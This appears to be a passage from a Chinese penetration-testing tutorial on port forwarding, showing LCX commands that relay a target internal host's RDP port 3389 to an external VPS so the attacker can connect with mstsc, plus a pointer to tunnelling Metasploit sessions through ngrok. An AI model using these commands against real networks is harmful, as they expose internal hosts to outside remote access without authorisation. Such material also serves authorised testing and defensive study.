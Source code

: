 * * *

  

---

**LCX端口转发**
-----------

  

**1.本地监听**

实战情况下这里的IP应该是vps主机执行此命令，VPS主机将监听接收到的1111端口转发到本地11122端口上

```
`lcx.exe -listen 1111 11122``# 端口1111是目标主机连接本地的端口``# 端口11122是将接收到的服务器内容转发端口`
```

**2.端口转发**

在目标内网设备执行此命令。将目标的3389端口转发到VPS设备192.168.1.4的1111端口上

```
lcx.exe -slave 192.168.1.4 1111 127.0.0.1 3389
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

**3.成功连接  
**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**4.远程连接**

我们已经将目标内网的3389转口转发到192.168.1.4的11122端口上，此时只需要Mstsc 192.168.1.4:11122即可连接上内网主机：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

---

  

---

**MSF端口转发**
-----------

```
项目地址：https://www.ngrok.cc/
```

注册ngrock账号，启动转发。ngrock使用方法：[MSF配合Ngrock穿透内网](http://mp.weixin.qq.com/s?__biz=MjM5NDUxMTI2NA==&mid=2247484003&idx=1&sn=1f76ac6dc42c90ed728bd28c963d5222&chksm=a687e2ac91f06bbada1f801f2a4d00257b91c9d6df9b96029b13d454f3d402c236cea870056f&scene=21#wechat_redirect)

  
